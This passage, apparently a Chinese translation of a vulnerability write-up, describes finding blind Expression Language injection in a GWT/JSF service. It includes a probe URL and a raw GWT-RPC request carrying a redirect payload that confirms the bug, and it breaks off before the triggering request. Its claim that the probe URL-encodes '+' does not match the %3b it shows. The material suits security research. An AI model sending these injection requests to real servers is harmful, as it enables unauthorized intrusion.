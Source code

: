 由于这是一个私有函数，所以我们不能通过客户端直接查看到这个函数的内容。在第8行我们可以了解到这里再次使用了”MibWidgetBeanName”属性，将一个字符串存储到了localObject2中。

localObject2这个变量稍后会在第14行被用到去接受一个语言表达式。很明显，这是一个经典的表达式注入漏洞，不过前提是先反汇编出代码呀～



## 攻击过程

首先，这不是一个有返回值的语言表达式注入漏洞。这就意味着你不知道它是不是已经执行你输入的命令。因此，我将它认为是语言表达式盲注。

我通过一个简单的例子进行说明，假如我们一个JSF(java服务器框架)存在这样的一个漏洞，那么漏洞代码会类似下方：

`&lt;h:outputText value="${beanEL.ELAsString(request.getParameter('expression'))}" /&gt;`

那么，通过以下攻击代码就可以实现攻击

`http://[target]/some_endpoint/vuln.jsf?expression=9%3b1`

由于浏览器会将”+”号转换为空格，所以我们对”+”号进行url编码，如果我们得到的结果是10,那么我们就知道服务器已经执行这一个”9+1”这个命令。使用数学表达式进行注入检测是burpsuit检测注入的方法。

但是，在上述我们进行审计的代码当中，我们是不是不能去轻易的判断他是不是存在语言表达式漏洞？当然不是，我们还有其他方法。通过查找JSF说明文档，我发现了一些特别棒的函数，能够方便我们在不发出http请求确定是否存在EL注入。

Oracle官方文档陈述道你可以在FacesContext对象中使用getExternalContext方法。这个方法会返回一个ExternalContext类型的值，它允许我们设置特定对象的响应属性。当我查看文档时，这两个函数引起了我的注意：
1. setResponseCharacterEncoding
1. redirect
因此我们可以通过设置这个特定字符串为下面java代码：

`facesContext.getExternalContext().redirect("http://srcincite.io/");`

如果响应状态值为302,重定向到了”[http://srcincite.io/](http://srcincite.io/) “,那么我们就可以确定存在漏洞。



## 漏洞测试

我们第一个请求是对MibWidgetBeanName属性进行赋值

```
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: /
X-GWT-Module-Base:
X-GWT-Permutation:
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 195

6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|sendBeanName|java.lang.String|facesContext.getExternalContext().redirect(“http://srcincite.io/")|1|2|3|4|1|5|6|
```



通过返回响应为”//ok[[],0,6]”可以了解到，我们对GWT注意已经成功。然后第二个请求触发存放在session中的字符串。但是，当我们发送请求之前，因为setMibNodesInfo函数传入的是一个复杂的变量类型，我们需要查看被保护文件的源代码，了解一下允许提交的类型。在[strongname].gwt.rpc文件中，我找到了在数组中可以提交的类型: java.util.ArrayList/382197682。
